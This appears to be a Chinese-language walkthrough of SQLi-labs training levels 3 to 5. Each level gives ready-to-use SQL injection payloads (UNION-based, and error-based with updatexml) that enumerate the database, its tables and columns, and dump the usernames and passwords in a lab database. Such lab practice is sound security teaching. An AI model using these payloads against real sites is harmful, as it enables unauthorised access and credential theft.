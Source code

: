 # 第三关

> sql语句是单引号字符型且有括号

```sql
?id=2')--+
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
```



# 第四关

> sql语句是双引号字符型且有括号

```SQL
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,database(),version()--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1") union select 1,2,group_concat(username ,id , password) from users--+
```



# 第五关

获取数据库名

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select(database())),0x7e),1) --+
```

`count`查看有多少表

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+
```

![image-20230826211536277](./SQLi_labs.assets/image-20230826211536277.png)
